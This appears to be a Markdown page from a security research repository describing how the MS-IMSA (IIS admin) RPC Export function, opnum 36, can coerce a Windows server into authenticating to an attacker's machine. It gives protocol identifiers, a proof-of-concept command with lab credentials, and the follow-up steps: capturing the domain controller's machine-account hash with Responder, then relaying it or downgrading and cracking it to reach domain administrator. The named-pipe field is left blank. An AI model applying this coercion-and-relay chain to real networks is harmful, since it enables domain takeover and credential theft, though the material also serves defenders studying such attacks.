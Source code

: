# MS-IMSA - Remote call to Export (opnum 36)

## Summary

 - **Protocol**: [[MS-IMSA]: Internet Information Services (IIS) IMSAdminBaseW Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/9cd07fff-2cb6-44fb-be98-6f292ae2a457)

 - **Protocol UUID**: 70b51430-b6ca-11d0-b9b9-00a0c922e750

 - **Protocol version**: 0.0

 - **SMB Named pipe**: ``

 - **Function name**: [`Export`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/61afee7a-a004-47de-a264-f8e39998b566)

 - **Function operation number**: `36`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-IMSA`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/9cd07fff-2cb6-44fb-be98-6f292ae2a457) protocol (with uuid `70b51430-b6ca-11d0-b9b9-00a0c922e750` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-IMSA`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/9cd07fff-2cb6-44fb-be98-6f292ae2a457) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-IMSA]: Internet Information Services (IIS) IMSAdminBaseW Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/9cd07fff-2cb6-44fb-be98-6f292ae2a457) and allows to call RPC functions of this protocol. We will then call the remote [`Export`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/61afee7a-a004-47de-a264-f8e39998b566) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
Export('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT Export(
   [unique, in, string] LPCWSTR pszPasswd,
   [unique, in, string] LPCWSTR pszFileName,
   [unique, in, string] LPCWSTR pszSourcePath,
   [in] DWORD dwMDFlags
 );
```

## References

 - Documentation of protocol [MS-IMSA]: Internet Information Services (IIS) IMSAdminBaseW Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/9cd07fff-2cb6-44fb-be98-6f292ae2a457

 - Documentation of function `Export`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/61afee7a-a004-47de-a264-f8e39998b566